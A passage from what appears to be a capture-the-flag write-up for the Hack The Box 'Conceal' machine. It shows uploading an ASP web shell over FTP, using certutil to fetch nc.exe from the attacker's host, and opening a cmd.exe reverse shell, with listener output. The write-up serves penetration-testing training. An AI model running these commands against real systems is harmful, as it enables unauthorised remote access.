 Upload it via `ftp`.

```bash
ftp> put shell.asp
local: shell.asp remote: shell.asp
229 Entering Extended Passive Mode (|||49680|)
125 Data connection already open; Transfer starting.
100% |************************************************|  3379       16.52 MiB/s    --:-- ETA
226 Transfer complete.
3379 bytes sent in 00:00 (24.16 KiB/s)
```

Then, I can access to the uploaded file as follows;

![](attachments/conceal_3.png)

Then, I uploaded `nc.exe` with the following command.

```bash
certutil.exe -urlcache -split -f http://10.10.14.4:8000/nc.exe C:\Users\Public\Documents\nc.exe
```

Then, I can open a reverse shell connection using the uploaded `nc.exe`.
(Need to setup listener ahead)

```vbnet
c:\Users\Public\Documents\nc.exe 10.10.14.4 9000 -e "cmd.exe"
```

Then, soon the listener captures and spawns a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.116] 49684
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\SysWOW64\inetsrv>whoami
whoami
conceal\destitute
```

